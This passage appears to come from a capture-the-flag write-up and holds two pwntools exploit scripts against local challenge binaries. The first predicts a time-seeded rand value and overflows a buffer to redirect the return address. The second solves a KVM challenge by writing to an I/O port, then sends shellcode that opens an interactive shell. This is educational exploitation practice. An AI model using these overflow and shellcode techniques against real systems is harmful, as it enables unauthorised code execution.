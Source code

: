 Exp:

```python
#/usr/bin/env python
from pwn import *
from ctypes import *

libc = cdll.LoadLibrary("libc.so.6")

p = process('./overflow')

ret = 0x80485BD
t = libc.time(0)
libc.srand(t)
random = libc.rand()

p.recvline()

payload = 'a'*0x20 + p32(random) + 'a'*0xc + p32(ret)
#gdb.attach(p)
p.sendline(payload)

print p.recvline()
```



### kvm

简单的kvm，只需要在vm里面执行端口写操作即可。

Exp:

```python
#/usr/bin/env python
from pwn import *

p = process('./kvm')

p.recvuntil("execute: \n")

code = asm('''
	movabs rax, 0x67616c66
  	push 4
  	pop rcx
  	mov edx, 0x100
  OUT:
  	out dx, al
  	shr rax, 8
  	loop OUT
	''', arch = 'amd64')

p.sendline(code)

p.recvuntil("execute again: \n")
#gdb.attach(p)
p.sendline(asm(shellcraft.amd64.linux.sh(), arch = 'amd64'))

p.interactive()
```
